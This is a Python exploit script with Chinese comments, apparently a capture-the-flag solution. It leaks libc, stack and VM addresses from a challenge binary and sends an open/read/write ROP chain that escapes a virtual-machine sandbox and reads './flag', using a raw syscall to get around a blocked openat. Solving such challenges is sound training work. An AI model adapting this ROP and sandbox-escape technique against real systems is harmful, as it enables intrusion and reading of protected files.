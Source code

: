 ```py
libc_base = int(data[15], 16) - 0x72c3f
libc.address = libc_base
elf_base = int(data[19], 16) - 0x3004
stack_environ_base = int(data[8], 16) + 0x3998
stack_ret_addr = stack_environ_base - 0x4320 #- 0x8 - 0x1c
stack_detect_addr = stack_ret_addr + 0x14
print(f'libc 基址: { hex(libc_base) }')
print(f'elf 基址: { hex(elf_base) }')
print(f'stack_environ 基址: { hex(stack_environ_base) }')
print(f'stack_ret_addr: { hex(stack_ret_addr) }')
print(f'stack_detect_addr: { hex(stack_detect_addr) }')

p.recvuntil(b'114514\n')
leak_addr_1 = int(p.recvuntil(b'\n'))
leak_addr_2 = int(p.recvuntil(b'\n'))

# & 0xFFFFFFFF: 有符号 16 位 -> 无符号 16 位
vm_code_base 	= (leak_addr_2 & 0xFFFFFFFF) * 0x100000000 + (leak_addr_1 & 0xFFFFFFFF)
vm_memory_base 	= vm_code_base - 0x7690
vm_data_base 	= vm_memory_base + 4292 - 260
vm_code_size_base = vm_memory_base + 0x8
print(f'vm_memory 基址: { hex(vm_memory_base) }')
print(f'vm_data 基址: { hex(vm_data_base) }')

# ------------- 在获得基本信息后，从这里开始跳出虚拟机，打rop -------------
# gadget
pop_rdi 	= libc_base + 0x2a6c5
pop_rsi 	= libc_base + 0x2c081
pop_rdx 	= libc_base + 0x5f65a
pop_rsp		= libc_base + 0x35762
pop_rax		= libc_base + 0x45f10
syscall_ret	= libc_base + 0x113399

# 几个在 rop 后期会用到的地址
flag_addr	= vm_data_base + 0x1000
buffer_addr	= vm_data_base + 0x1000 + 0x10
rop_stack_addr	= vm_data_base + 0x1000 + 0x40

orw = b''
orw += b'./flag'
orw = orw.ljust(0x40, b'\x00')
orw += p64(pop_rdi) + p64(flag_addr)
orw += p64(pop_rsi) + p64(0x4)
orw += p64(pop_rdx) + p64(0)
orw += p64(pop_rax) + p64(0x2) + p64(syscall_ret)	# 在这里 openat 系统调用被禁止，连带 libc_open，因此采用 syscall2ret 打
orw += p64(pop_rdi) + p64(3)				# 3 is the fd of open file
orw += p64(pop_rsi) + p64(buffer_addr)
orw += p64(pop_rdx) + p64(0xff)
orw += p64(libc.symbols['read'])
orw += p64(pop_rdi) + p64(1)				# 1: stdout
orw += p64(pop_rsi) + p64(buffer_addr)
orw += p64(pop_rdx) + p64(0xff)
orw += p64(libc.symbols['write'])
orw = orw.ljust(250 * 4, b'\x00')

for i in range(0, len(orw), 4):
	p.sendline(str(int(orw[i: i + 4][::-1].hex(), 16)).encode())

# 客户端与服务端相互对账当前指令
p.recvuntil(b'114514\n')
p.sendline('114514')

```